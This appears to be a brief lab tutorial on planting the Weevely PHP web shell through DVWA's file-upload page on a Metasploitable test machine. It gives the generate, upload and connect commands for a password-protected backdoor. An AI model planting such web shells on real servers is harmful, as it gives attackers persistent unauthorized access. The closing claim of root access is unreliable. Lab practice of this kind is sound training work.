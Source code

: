 It's important to preserve the access to the web server that we vulnerated. For this we use a web shell, having a backdoor

We will use the webshell **Weevely**

Generate the script with this:

````
weevely generate hacker /home/jilted/weevely.php
#hacker is the password
````

- Go to http://192.168.58.129/dvwa on mutillidate  with the ip of your metasploitable machine
- Log in with *admin password* credentials by default
- Click the DWA button
- Put the low difficult
- Select the upload tab
- Click on browse
- Copy the new url generated, like this:
http://192.168.58.129/dvwa/hackable/uploads/weevely.php

- Put the next command:
````
weevely http://192.168.58.129/dvwa/hackable/uploads/weevely.php hacker
````
- And now we are the root of the server
